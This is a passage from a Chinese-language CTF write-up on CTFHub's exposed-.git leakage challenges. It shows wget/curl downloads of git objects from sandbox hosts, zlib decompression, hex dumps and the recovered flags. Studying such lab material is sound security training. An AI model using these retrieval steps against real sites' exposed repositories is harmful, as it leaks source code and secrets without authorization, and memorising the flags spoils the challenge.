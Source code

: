 
可以得知这次 commit 的 tree id 为 `4f76c2d615138379c60b01fe1f431a6faaa221f3`。继续下载这个文件：

```bash
$ wget "http://challenge-33d2dab378983665.sandbox.ctfhub.com:10800/.git/objects/4f/76c2d615138379c60b01fe1f431a6faaa221f3"

$ zlib-flate -uncompress < 76c2d615138379c60b01fe1f431a6faaa221f3 > output

$ xxd output
00000000: 7472 6565 2031 3231 0031 3030 3634 3420  tree 121.100644
00000010: 3130 3632 3731 3434 3839 3233 3835 322e  106271448923852.
00000020: 7478 7400 7ea4 4e76 376b db62 ab87 cc7a  txt.~.Nv7k.b...z
00000030: b101 94c1 4973 daa0 3130 3036 3434 2035  ....Is..100644 5
00000040: 3078 2e68 746d 6c00 9071 e0a2 4f65 4c88  0x.html..q..OeL.
00000050: aa97 a227 3ca5 95e3 01b7 ada5 3130 3036  ...'<.......1006
00000060: 3434 2069 6e64 6578 2e68 746d 6c00 2c59  44 index.html.,Y
00000070: e302 4e3b c350 9767 7820 4928 a21d 9ff4  ..N;.P.gx I(....
00000080: 2d01
```

得知这次 commit 中有个叫做 `106271448923852.txt` 的文件，哈希为 `7ea44e76376bdb62ab87cc7ab10194c14973daa0`

下载还原这个文件：

```bash
$ wget "http://challenge-33d2dab378983665.sandbox.ctfhub.com:10800/.git/objects/7e/a44e76376bdb62ab87cc7ab10194c14973daa0"

$ zlib-flate -uncompress < 7ea44e76376bdb62ab87cc7ab10194c14973daa0 > output

$ xxd output
00000000: 626c 6f62 2033 3300 6374 6668 7562 7b36  blob 33.ctfhub{6
00000010: 3635 6164 3731 3132 6238 3932 3934 6635  65ad7112b89294f5
00000020: 6661 3634 3766 367d 0a                   fa647f6}.
```

flag: `ctfhub{665ad7112b89294f5fa647f6}`

### 信息泄露 - Stash

```bash
$ curl "http://challenge-969c65bb8fb87c8e.sandbox.ctfhub.com:10800/.git/refs/stash"
60aca61375957983b9feccc84b3a9579be3f0d62

$ wget "http://challenge-969c65bb8fb87c8e.sandbox.ctfhub.com:10800/.git/objects/60/aca61375957983b9feccc84b3a9579be3f0d62"

$ zlib-flate -uncompress < aca61375957983b9feccc84b3a9579be3f0d62 > output

$ strings output
commit 281
tree b34c33de0d153cf72389bc66844a2291d8db3c0f
parent 5e2b7bbf9fb0db8f474396e2c32c11bc829e82b8
parent c62d9dea80687bfa4deaed96d8b8783c0bb989f4
author CTFHub <sandbox@ctfhub.com> 1734604766 +0000
committer CTFHub <sandbox@ctfhub.com> 1734604766 +0000
WIP on master: 5e2b7bb add flag
```
